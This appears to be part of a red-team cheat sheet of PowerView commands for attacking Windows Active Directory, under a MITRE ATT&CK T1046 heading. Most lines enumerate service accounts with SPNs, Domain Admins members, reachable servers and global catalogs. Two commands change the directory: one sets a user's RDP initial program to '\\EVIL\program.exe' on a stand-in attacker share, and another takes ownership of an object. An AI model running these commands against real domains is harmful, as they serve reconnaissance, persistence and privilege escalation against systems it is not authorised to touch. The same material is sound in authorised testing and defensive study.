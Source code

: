 #### <a name='T1046SERVICESLOOTS'></a>T1046 SERVICES LOOTS

References:
- [https://attack.mitre.org/techniques/T1046](https://attack.mitre.org/techniques/T1046/)

```powershell
# find all users with an SPN set (likely service accounts)
Get-NetUser -SPN -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select name, description, lastlogon, badpwdcount, logoncount, useraccountcontrol, memberof

# wsman
# mssqlsvc
sed 's/MSSQLSvc\/\([a-z,A-Z,0-9]*\)\(\.contoso\.corp:\|:\)\?\(.*\)/\1/g' mssql_instances_shorted.txt | sort -u > mssql_servers_shorted.txt

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ?{$_.memberof -match 'Domain Admins'}

# find all Win2008 R2 computers (likely servers) and IP/ICMP reachable
Get-NetComputer -OperatingSystem "Windows 2008*" -Ping -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
```

#### <a name='MISC'></a>MISC
```powershell
# all disabled users
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=2)" -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
Get-DomainUser -UACFilter ACCOUNTDISABLE -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# find all computers in a given OU
Get-DomainComputer -SearchBase "ldap://OU=..." -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# enumerate all gobal catalogs in the forest
Get-ForestGlobalCatalog -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# turn a list of computer short names to FQDNs, using a global catalog
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn }

# save a PowerView object to disk for later usage
Get-DomainUser -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | Export-Clixml user.xml
$ztarg_users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the owner of $ztarg_obj in the current domain to $zlat_user
Set-DomainObjectOwner -Identity $ztarg_obj -OwnerIdentity $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
```